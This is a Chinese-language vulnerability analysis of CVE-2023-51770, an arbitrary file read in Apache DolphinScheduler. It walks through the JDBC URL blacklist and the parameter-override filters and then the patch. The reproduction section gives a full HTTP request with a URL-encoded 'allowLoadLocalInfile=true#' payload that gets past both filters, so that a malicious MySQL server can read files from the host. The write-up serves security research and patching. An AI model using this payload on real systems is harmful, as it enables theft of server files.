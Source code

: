 

# Arbitrary File Read Vulnerability in Apache Dolphinscheduler(CVE-2023-51770) - 先知社区

Arbitrary File Read Vulnerability in Apache Dolphinscheduler(CVE-2023-51770)

- - -

# 漏洞描述

Apache Dolphinscheduler 中的任意文件读取漏洞。此问题会影响 Apache Dolphinescent：3.2.1 之前的版本。我们建议用户将 Apache Dolphinescent 升级到 3.2.1 版本，该版本可以修复此问题。

# 漏洞版本

version<3.2.1

# 环境搭建

官网下载源码及 bin 运行包

```bash
tar -xvzf apache-dolphinscheduler-*-bin.tar.gz
cd apache-dolphinscheduler-*-bin
bash ./bin/dolphinscheduler-daemon.sh start standalone-server
```

修改 jvm 在 standalone-server/bin/start.sh  
访问[http://localhost:12345/dolphinscheduler/ui](http://localhost:12345/dolphinscheduler/ui)  
admin/dolphinscheduler123

[![](assets/1709022888-9c4a271f21dca6a89f74e7abc2164fe5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172225-8dda3060-d488-1.png)

# 代码分析

根据修复补丁分析：[\[Enhancement\]\[API\]Enhance mysql connection properties by lgcareer · Pull Request #15433 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/15433/files)

漏洞存在于 org.apache.dolphinscheduler.plugin.datasource.mysql.param.MySQLDataSourceProcessor#getConnection

[![](assets/1709022888-c4a29bc74f44cb1db3a3c9fc761f7c40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172233-925bb26c-d488-1.png)

这里调用了MySQLDataSourceProcessor#getJdbcUrl函数将返回值作为jdbcUrl来进行连接

[![](assets/1709022888-1abb8e9223a1cdfef9c0be3deba71336.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172237-953724c6-d488-1.png)

进行了判断：如果请求存在 other 参数，就会进入到 MySQLDataSourceProcessor#transformOther

[![](assets/1709022888-419aa81dba559bc2fb51759a5f76c809.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172242-97d5fbbc-d488-1.png)

可以看到这里使用MySQLDataSourceProcessor#checkKeyIsLegitimate函数  
对 other 参数中的键名进行了过滤（第一层过滤：contains 判断），排除了黑名单内键名

[![](assets/1709022888-8db65d7ee251a1f1dc677931af26ae15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172248-9b5cd670-d488-1.png)

黑名单如下：  
如果存在如下键名就会替换为 null

[![](assets/1709022888-918106ea29dc7e4abb1f09101f9944c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172253-9e8af2aa-d488-1.png)

在键名过滤之后，还会追加 APPEND\_PARAMS 到 jdbcUrl 中

[![](assets/1709022888-32fff8f3b83b983e8c208a38338fe1ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172258-a1c80e6c-d488-1.png)

PPEND\_PARAMS 如下

[![](assets/1709022888-7f345423e9db9e2d94a09dd5a3badf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172303-a4430818-d488-1.png)

是将危险的 jdbcUrl 参数通过字符串的形式设置为 false，这样用户在这之前设置的危险参数都将被覆盖  
也就是在初始化 jdbcUrl 语句时进行了过滤（第二层过滤：属性覆盖）

# 漏洞复现

根据已知的 jdbcAttack 攻击绕过手段，全部过滤可以被绕过（绕过细节可以参考上一篇 Dataease jdbcUrl bypss 分析），请求如下

```bash
POST /dolphinscheduler/datasources/connect HTTP/1.1
Host: 172.18.178.167:12345
Content-Length: 407
Accept: application/json, text/plain, */*
sessionId: 338d2a47-ed61-4fc5-9868-5c8b0c57dec5
language: zh_CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://172.18.178.167:12345
Referer: http://172.18.178.167:12345/dolphinscheduler/ui/datasource
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: securityConfigType=PASSWORD; sessionId=338d2a47-ed61-4fc5-9868-5c8b0c57dec5; language=zh_CN; sessionId=338d2a47-ed61-4fc5-9868-5c8b0c57dec5
Connection: close

{"type":"MYSQL","label":"MYSQL","name":"t2","note":"","host":"172.18.176.1","port":3308,"principal":"","javaSecurityKrb5Conf":"","loginUserKeytabUsername":"","loginUserKeytabPath":"","mode":"","userName":"c","password":"","database":"d","connectType":"","other":{"%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#":"a"},"endpoint":"","MSIClientId":"","dbUser":"","datawarehouse":""}
```

已知在 jdbcurl 中可以通过#符号截断后续的字符为注释字符串  
jdbcurl 又可以解析参数名和参数值的 url 编码形式，那么就可以将 other 键名设置为

-   %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#  
    url 解码后为
-   allowLoadLocalInfile=true#

[![](assets/1709022888-073decb0ac021de18737d612b68e759b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172314-aafff850-d488-1.png)

此时 getJdbcUrl(connectionParam) 的返回值就变成了

```bash
jdbc:mysql://172.18.176.1:3308/d?%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#=a&allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false
```

%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65经过url编码不会在org.apache.dolphinscheduler.plugin.datasource.mysql.param.MySQLDataSourceProcessor#checkKeyIsLegitimate触发contains函数，成功的绕过了第一层过滤  
然后可以看到 allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false 被#符号截断，成为了无效的注释字符，这样就可以绕过第二个过滤  
此时创建恶意 mysql 服务器，就可以利用 allowLoadLocalInfile 参数读取服务器任意文件

[![](assets/1709022888-1c60ee4d21a4fcc7fead587c3f1f58aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172328-b372b84c-d488-1.png)

# 漏洞修复

根据修复补丁分析：[\[Enhancement\]\[API\]Enhance mysql connection properties by lgcareer · Pull Request #15433 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/15433/files)  
[![](assets/1709022888-8bfb4804d29c16ba79bf6d2613b40732.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172333-b620a4dc-d488-1.png)

不再通过直接拼接 jdbcUrl 来进行过滤，而是将过滤属性作为 properties 来进行初始化（这样就无法通过注释绕过），修复了漏洞
